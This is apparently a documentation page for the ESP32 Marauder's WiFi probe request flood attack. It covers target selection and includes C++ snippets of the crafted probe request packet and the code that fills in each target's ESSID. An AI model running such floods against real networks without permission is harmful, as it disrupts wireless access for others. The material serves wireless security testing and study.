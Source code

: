 # Probe Request Flood

### Menu Location
`WiFi`>`Attacks`>`Probe Req Flood`  

### Info
The ESP32 is capable of transmitting specially crafted WiFi packets.

Before executing probe request flood attack on the ESP32 Marauder, you must build a list of available access points and select which access points to target. See [Scan APs](scan-aps) and [Select APs](select-aps) for more details on how to build a target list.

Once a proper target list has been built, an probe request flood can be executed by simply selecting the menu option. The packet transmission rate will be displayed on screen. The attack can be ended by touching the screen.

**NOTE: The more target networks selected, the less effective the attack will be. More networks means more time must be taken to send packets to each access point.**

The probe request packet is defined in [WiFiScan.h](https://github.com/justcallmekoko/ESP32Marauder/blob/master/esp32_marauder/WiFiScan.h) as the following:   
```C++
uint8_t prob_req_packet[128] = {0x40, 0x00, 0x00, 0x00, 
                                  0xff, 0xff, 0xff, 0xff, 0xff, 0xff, // Destination
                                  0x01, 0x02, 0x03, 0x04, 0x05, 0x06, // Source
                                  0xff, 0xff, 0xff, 0xff, 0xff, 0xff, // Dest
                                  0x01, 0x00, // Sequence
                                  0x00, // SSID Parameter
                                  0x00, // SSID Length
                                  /* SSID */
                                  };
```

As the marauder iterates through the list of access points, the probe request packet is populated with the information of each "active" access point such as length of ESSID and the ESSID itself.  
```C++
      // Set SSID length
      int ssidLen = access_points->get(i).essid.length();
      //int rand_len = sizeof(rand_reg);
      int fullLen = ssidLen;
      prob_req_packet[25] = fullLen;

      // Insert ESSID
      char buf[access_points->get(i).essid.length() + 1] = {};
      access_points->get(i).essid.toCharArray(buf, access_points->get(i).essid.length() + 1);
      
      for(int i = 0; i < ssidLen; i++)
        prob_req_packet[26 + i] = buf[i];
```

If the flood is executed properly, you should notice probe request replies from the targeted access points in a wireshark collection.